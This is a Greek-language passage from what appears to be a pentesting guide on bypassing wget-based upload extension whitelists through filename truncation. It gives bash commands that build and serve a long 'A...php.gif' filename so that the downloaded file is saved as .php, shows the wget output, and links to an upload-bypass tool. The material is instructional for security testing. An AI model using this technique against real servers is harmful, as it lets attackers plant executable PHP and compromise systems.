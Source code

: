 Σε ορισμένες περιπτώσεις μπορεί να διαπιστώσετε ότι ένας διακομιστής χρησιμοποιεί **`wget`** για να **κατεβάσει αρχεία** και μπορείτε να **υποδείξετε** τη **διεύθυνση URL**. Σε αυτές τις περιπτώσεις, ο κώδικας μπορεί να ελέγχει ότι η επέκταση των κατεβασμένων αρχείων είναι μέσα σε μια λευκή λίστα για να διασφαλίσει ότι μόνο επιτρεπόμενα αρχεία θα κατεβούν. Ωστόσο, **αυτός ο έλεγχος μπορεί να παρακαμφθεί.**\
Το **μέγιστο** μήκος ενός **ονόματος αρχείου** σε **linux** είναι **255**, ωστόσο, **wget** κόβει τα ονόματα αρχείων σε **236** χαρακτήρες. Μπορείτε να **κατεβάσετε ένα αρχείο με όνομα "A"\*232+".php"+".gif"**, αυτό το όνομα αρχείου θα **παρακάμψει** τον **έλεγχο** (καθώς σε αυτό το παράδειγμα **".gif"** είναι μια **έγκυρη** επέκταση) αλλά το `wget` θα **μετονομάσει** το αρχείο σε **"A"\*232+".php"**.
```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```
Σημειώστε ότι **μια άλλη επιλογή** που μπορεί να σκέφτεστε για να παρακάμψετε αυτόν τον έλεγχο είναι να κάνετε τον **HTTP server να ανακατευθύνει σε ένα διαφορετικό αρχείο**, έτσι ώστε η αρχική διεύθυνση URL να παρακάμψει τον έλεγχο και στη συνέχεια το wget να κατεβάσει το ανακατευθυνόμενο αρχείο με το νέο όνομα. Αυτό **δεν θα λειτουργήσει** **εκτός αν** το wget χρησιμοποιείται με την **παράμετρο** `--trust-server-names` επειδή **το wget θα κατεβάσει τη σελίδα ανακατεύθυνσης με το όνομα του αρχείου που υποδεικνύεται στην αρχική διεύθυνση URL**.

## Εργαλεία

* [Upload Bypass](https://github.com/sAjibuu/Upload_Bypass) είναι ένα ισχυρό εργαλείο σχεδιασμένο να βοηθά τους Pentesters και τους Bug Hunters στη δοκιμή μηχανισμών μεταφόρτωσης αρχείων. Εκμεταλλεύεται διάφορες τεχνικές bug bounty για να απλοποιήσει τη διαδικασία εντοπισμού και εκμετάλλευσης ευπαθειών, εξασφαλίζοντας λεπτομερείς αξιολογήσεις διαδικτυακών εφαρμογών.

